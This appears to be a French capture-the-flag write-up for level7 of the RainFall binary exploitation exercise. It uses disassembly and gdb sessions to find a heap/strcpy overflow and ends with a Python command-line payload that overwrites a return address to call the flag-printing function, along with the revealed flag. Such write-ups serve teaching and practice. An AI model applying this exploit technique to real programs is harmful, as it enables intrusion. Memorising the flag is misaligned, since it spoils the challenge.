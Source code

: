 Nous remarquons une fonction `m` qui affiche notre flag.

```bash
080484f4 <m>:
 80484f4:	55                   	push   %ebp
 80484f5:	89 e5                	mov    %esp,%ebp
 80484f7:	83 ec 18             	sub    $0x18,%esp
 80484fa:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048501:	e8 ca fe ff ff       	call   80483d0 <time@plt>
 8048506:	ba e0 86 04 08       	mov    $0x80486e0,%edx
 804850b:	89 44 24 08          	mov    %eax,0x8(%esp)
 804850f:	c7 44 24 04 60 99 04 	movl   $0x8049960,0x4(%esp)
 8048516:	08 
 8048517:	89 14 24             	mov    %edx,(%esp)
 804851a:	e8 91 fe ff ff       	call   80483b0 <printf@plt>
 804851f:	c9                   	leave  
 8048520:	c3                   	ret  
```
L'on remarque qu'à partir de 20 characters, on peux écrire dans eax soit le premier argument du deuxième strcpy.

```bash
(gdb) r "abcdefghijklnmopqrstuvwxyz" "b"
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/user/level7/level7 "abcdefghijklnmopqrstuvwxyz" "b"

Breakpoint 1, 0x080485bd in main ()
(gdb) info r
eax            0x78777675	2021095029
...
(gdb) p (char*)0xbffff902
$1 = 0xbffff902 "b"

```

Nous cherchons l'adresse de retour mise dans la stack. Soit à +4 de l'adresse ebp sauvegardée.

```bash
(gdb) b main
Breakpoint 1 at 0x8048524
(gdb) r
Starting program: /home/user/level7/level7 

Breakpoint 1, 0x08048524 in main ()
(gdb) info r
...
ebp            0xbffff728	0xbffff728
```

Ensuite, il nous suffit de mettre en second argument l'adresse de `m`

```bash
level6@RainFall:~$ ./level7 $(python -c 'print "a" * 20 + "\x2c\xf7\xff\xbf"') $(python -c 'print "\xf4\x84\x04\x08"')
~~
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1652894726
Segmentation fault (core dumped)

```
